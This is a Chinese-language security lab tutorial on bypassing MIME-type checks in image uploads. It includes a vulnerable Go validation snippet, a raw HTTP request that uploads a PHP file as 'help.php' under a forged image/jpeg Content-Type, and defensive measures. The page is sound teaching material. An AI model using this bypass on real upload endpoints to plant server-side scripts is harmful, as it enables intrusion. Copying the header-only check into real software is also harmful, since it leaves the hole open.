 ```yaml
---
sidebar_position: 3
---
```


# 图片上传：MIME 类型可绕过

文件上传时的 MIME 类型绕过漏洞是一种常见的安全问题。在 Web 应用程序中，文件上传功能允许用户将文件(例如图片)上传到服务器。通常，应用程序会检查上传文件的 MIME 类型，以确保用户上传的是允许的文件类型(例如图片文件)。然而，攻击者可以通过伪造文件的 MIME 类型来绕过这个检查，上传一些非图片文件，从而导致安全漏洞。

服务端 MIME 类型检测是通过检查 http 包的 Content-Type 字段中的值来判断上传文件是否合法的。

1. text/plain（纯文本）
2. text/html（HTML 文档）
3. text/javascript（js 代码）
4. application/xhtml+xml（XHTML 文档）
5. image/gif（GIF 图像）
6. image/jpeg（JPEG 图像）
7. image/png（PNG 图像）
8. video/mpeg（MPEG 动画）
9. application/octet-stream（二进制数据）
10. application/pdf（PDF 文档）

### 示例代码：

以下代码片段用于验证上传文件的 MIME 类型是否为图片类型。如果"Content-Type"字段不存在或格式不正确，或者上传的文件不是图片类型，那么会返回上传失败的信息，否则认为上传是成功的，这是一个简单的 MIME 类型检查过程

```Go
t, _, err := mime.ParseMediaType(header.Header.Get("Content-Type"))
if err != nil {
  Failed(writer, request, "mimt.ParseMediaType Failed: %s", err)
   return}
if !utils.IContains(t, "image/") {
  unsafeTemplateRender(writer, request, uploadFailed, map[string]any{
  "reason": fmt.Sprintf("found mime type: %s, not a image/*", t,
  ),})
  return}
```

### 攻击示例：

攻击者可以通过修改 HTTP 请求的头部信息，将上传文件的 MIME 类型伪装成图片文件的 MIME 类型，从而欺骗服务器，使其误认为上传的是合法的图片文件。

```HTML
POST /upload/case/mime HTTP/1.1
Host: 127.0.0.1:8787
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: identity
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------4523705081261853528174745732
DNT: 1
Origin: http://127.0.0.1:8787
Referer: http://127.0.0.1:8787/upload/main?case=mime
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/91.0
Content-Length: 182157

-----------------------------4523705081261853528174745732
Content-Disposition: form-data; name="filename"; filename="help.php"
Content-Type: image/jpeg

"<?php\x0aerror_reporting\x29E_ERROR\x28;\x0aheader\x29\"content-Type: text/html; charset=gb2312\"\x28;
```

### 防御措施：

为防止文件上传时的 MIME 类型绕过漏洞，开发者应该采取以下措施：

- 验证文件的真实类型：不仅仅依赖于客户端提供的 MIME 类型，还需要在服务器端验证文件的实际内容。可以使用文件的魔术数字（magic number）或者第三方库来检查文件的真实类型。
- 限制上传文件类型：明确规定允许上传的文件类型，并在服务器端进行白名单过滤。拒绝接受不在白名单中的文件类型。
- 重命名上传文件：在保存上传文件时，将文件重命名为一个随机的、唯一的文件名，不要使用用户提供的文件名。

### 靶场演示： 视频

<video
  src="/img/yaklab/fileupload/02unsafe-mime.mp4"
  loop={true}
  playsInline={true}
  controls={true}
  autoPlay={true}
  style={{ width: 890 }}
/>
